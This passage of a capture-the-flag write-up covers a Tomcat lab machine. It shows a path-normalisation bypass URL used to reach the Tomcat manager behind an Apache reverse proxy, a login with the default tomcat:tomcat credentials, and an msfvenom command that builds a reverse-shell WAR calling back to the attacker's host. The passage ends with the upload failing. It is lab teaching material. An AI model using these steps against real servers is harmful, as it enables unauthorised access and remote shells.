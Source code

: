 On visiting `/admin` -

![[Pasted image 20220107110414.png]]

We get an `Apache` error

On visiting some directory that doesn't exist like `/admins` -

![[Pasted image 20220107110551.png]]

We get an `Tomcat` error.

The web page is being hosted on **Tomcat/9.0.31**, but our nmap scan and the forbidden response state that the web server runs on **Apache** **httpd 2.4.41**

We also know that port 8080 showed up as filtered in the nmap scan (8080 is the default for Tomcat). We should make a note of this fact, as this most likely suggests a `reverse proxy` at play.

#### `Reverse Proxy` - Apache httpd 2.4.41  
#### `Origin/Back end Server` - Tomcat/9.0.31

Reference - [Breaking Parser Logic](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)

In short we can try to access `/manager` like this -

Url - `http://10.10.11.138/napster/..;/manager/html`

![[Pasted image 20220107111922.png]]

And we were prompted for username and password.On entering the username and password as `tomcat:tomcat` we were able to successfully login -

![[Pasted image 20220107112238.png]]

#### `.WAR Payload` -

Now that we have access to the web management interface of Tomcat we can try to upload and deploy a WAR (Web Application Archive) backdoor file, to achieve persistent shell access -

Creating  `.war` file using msfvenom -

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.127 LPORT=9001 -f war -o shell.war
Payload size: 1086 bytes
Final size of war file: 1086 bytes
Saved as: shell.war
```

Now upload it -

![[Pasted image 20220110124022.png]]

But it failed -

![[Pasted image 20220110124144.png]]
